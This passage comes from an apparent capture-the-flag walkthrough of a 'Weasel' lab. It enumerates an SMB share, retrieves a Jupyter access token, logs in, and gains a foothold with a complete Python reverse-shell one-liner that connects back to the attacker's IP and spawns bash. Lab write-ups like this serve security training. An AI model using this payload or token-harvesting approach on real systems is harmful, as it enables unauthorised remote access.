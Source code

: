 ```terminal
  pics                               DA        0  Thu Aug 25 16:26:47 2022                                                                                                                    
  requirements.txt                    A       12  Thu Aug 25 16:26:46 2022                                                                                                                    
  weasel.ipynb                        A     4308  Thu Aug 25 16:26:46 2022                                                                                                                    
  weasel.txt                          A       51  Thu Aug 25 16:26:46 2022        
smb: \> cd misc                                                                                                                                                                               
smb: \misc\> ls                                                                                                                                                                               
  .                                  DA        0  Thu Aug 25 16:26:47 2022                                                                                                                    
  ..                                 DA        0  Thu Aug 25 16:26:47 2022                                                                                                                    
  jupyter-token.txt                   A       52  Thu Aug 25 16:26:47 2022                                                                                                                    
                                                                                                                                                                                              
                15587583 blocks of size 4096. 8950540 blocks available                                                                                                                        
smb: \misc\> get jupyter-token.txt                                                                                                                                                            
getting file \misc\jupyter-token.txt of size 52 as jupyter-token.txt (0.1 KiloBytes/sec) (average 4.5 KiloBytes/sec)                                                                          
```

We were able to find the token, let's print it out

```terminal
┌─[]─[10.9.4.213]─[sirius@parrot]─[~/ctf/thm/weasel]                                                                                                                                          
└──╼ [★]$ cat jupyter-token.txt                                                                                                                                                               
067470c5ddsadc54153ghfjd817d15b5d5f5341e56b0dsad78a 
```

Now we go back and login

![loggedin](2.png)

## **Foothold**

To get a shell we click on `new` and select `python3`. This will give us a prompt to execute python commands.

We can use the following command to get a shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.4.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

![shell](3.png)
